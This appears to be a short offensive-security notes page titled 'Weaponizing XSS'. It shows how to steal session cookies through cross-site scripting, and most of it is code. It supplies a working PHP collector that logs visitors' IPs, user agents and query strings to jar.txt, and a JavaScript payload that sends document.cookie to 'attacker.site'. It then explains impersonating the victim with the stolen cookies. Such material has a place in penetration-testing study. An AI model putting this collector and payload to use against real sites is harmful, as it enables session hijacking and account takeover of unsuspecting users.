 ```yaml
---
description: Weaponizing XSS
---
```


# XSS cookie stealing

## get.php 

To store cookie on machine.

```php
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

# opens a logfile where we save the query
$fp = fopen('jar.txt','a');

fwrite($fp, $ip.' '.$browser."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```

Using the PHP file above, if we make a GET request with the following param below, the `hereismydata` value gets stored in the `jar.txt` defined above 

```text
attacker.site/get.php?test=hereismydata
```

Using this, we can weaponize the XSS by crafting a payload to send the victim's cookies into the website. And then navigating to `attacker.site/jar.txt` we will see anyone who has cookies stolen.

```javascript
<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
//the escape function helps prevent breaking the statement
```

If a victim triggers the XSS payload, the private cookies would be stolen and sent to the jar.txt file.

![](../.gitbook/assets/image%20%2860%29.png)

We can then use the cookies and impersonate as the user to login.

